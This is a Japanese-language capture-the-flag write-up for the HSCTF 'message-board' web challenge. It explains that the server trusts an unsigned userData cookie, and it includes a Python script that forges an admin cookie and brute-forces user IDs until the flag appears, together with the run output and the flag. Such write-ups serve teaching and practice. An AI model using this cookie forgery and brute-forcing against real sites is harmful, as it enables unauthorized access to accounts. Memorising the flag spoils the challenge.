 # message-board:web:Xpts<!--X-->
Your employer, LameCompany, has lots of gossip on its company message board: [message-board.hsc.tf](https://message-board.hsc.tf/). You, Kupatergent, are able to access some of the tea, but not all of it! Unsatisfied, you figure that the admin user must have access to ALL of the tea. Your goal is to find the tea you've been missing out on.  
Your login credentials: username: `kupatergent` password: `gandal`  
Server code is attached (slightly modified).  
[message-board-master.zip](message-board-master.zip)  

# Solution
アクセスするとログインフォームが表示されるので指定された情報でログインする。  
LameCompany: Message Board  
[site.png](site/site.png)  
「no flag for you」と言われて何も見つけることができない。  
配布されたソースのapp.jsを見てみる。  
```JavaScript
~~~
const users = [
    {
        userID: "972",
        username: "kupatergent",
        password: "gandal"
    },
    {
        userID: "***",
        username: "admin"
    }
]

app.get("/", (req, res) => {
    const admin = users.find(u => u.username === "admin")
    if(req.cookies && req.cookies.userData && req.cookies.userData.userID) {
        const {userID, username} = req.cookies.userData
        if(req.cookies.userData.userID === admin.userID) res.render("home.ejs", {username: username, flag: process.env.FLAG})
        else res.render("home.ejs", {username: username, flag: "no flag for you"})
    } else {
        res.render("unauth.ejs")
    }
})
~~~
```
cookieを確認しており、`username`が`admin`だった場合`userID`を確認してflagを表示しているようだ。  
`admin`はパスワードでログインできないようであり、`userID`は隠蔽されている。  
SSTIよりRCEでapp.jsを読み取ることも試したが、難しそうだ。  
`userID`を総当たりで解析するのはナンセンスだと思ったが以下のbfadmin.pyで試す。  
ちなみにkupatergentのcookieは`userData=j%3A%7B%22userID%22%3A%22972%22%2C%22username%22%3A%22kupatergent%22%7D`となっていた。  
```python:bfadmin.py
import requests

for i in range(1000):
    print(i)
    start = i
    r = requests.get("https://message-board.hsc.tf/", cookies={"userData": f"j%3A%7B%22userID%22%3A%22{i}%22%2C%22username%22%3A%22admin%22%7D"})
    if ("flag{" in r.text) or (r.status_code != 200):
        print(r.text)
        break
```
以下のように実行する。  
```bash
$ python bfadmin.py
0
1
2
~~~
766
767
768
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>LameCompany: Message Board</title>
~~~
        <p><strong data-bs-toggle="tooltip" title="has had enough of this bs">Rosa:</strong> Okay, I'm heading out.</p>
        <p><strong data-bs-toggle="tooltip" title="what a cool name">HSCTF:</strong> flag{y4m_y4m_c00k13s}</p>
    </div>
</div>
~~~
```
flagが得られた。  
`admin`の`userID`は`768`だったようだ。  

## flag{y4m_y4m_c00k13s}